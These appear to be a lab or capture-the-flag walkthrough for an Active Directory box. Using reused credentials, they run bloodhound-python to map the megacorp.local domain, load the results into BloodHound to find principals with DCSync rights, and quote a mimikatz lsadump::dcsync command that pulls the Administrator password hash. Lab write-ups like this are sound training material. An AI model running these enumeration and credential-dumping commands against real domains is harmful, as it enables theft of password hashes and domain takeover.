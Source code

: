 because we already have creds from the last box
`sandra:Password1234!`

we use bloodhound.py found here:
https://github.com/fox-it/BloodHound.py

must run
```bash
sudo bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
```

This will save json files to your current dir

---

Start Bloodhound

start neo4j first
`neo4j start`
start bloodhound
`bloodhound`

you can drop the .json files from earlier into the gui

---

**Common analysis queries in Bloodhound:**
	- Find all Domain Admins
	- Find Shortest Path to Domain Admins
	- Find Principals with DCSync Rights

---

Here we look at Find Principals with DCSync Rights

There is a special relation with 

With both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to get the password hash of an arbitrary principal using mimikatz: `lsadump::dcsync /domain:testlab.local /user:Administrator`

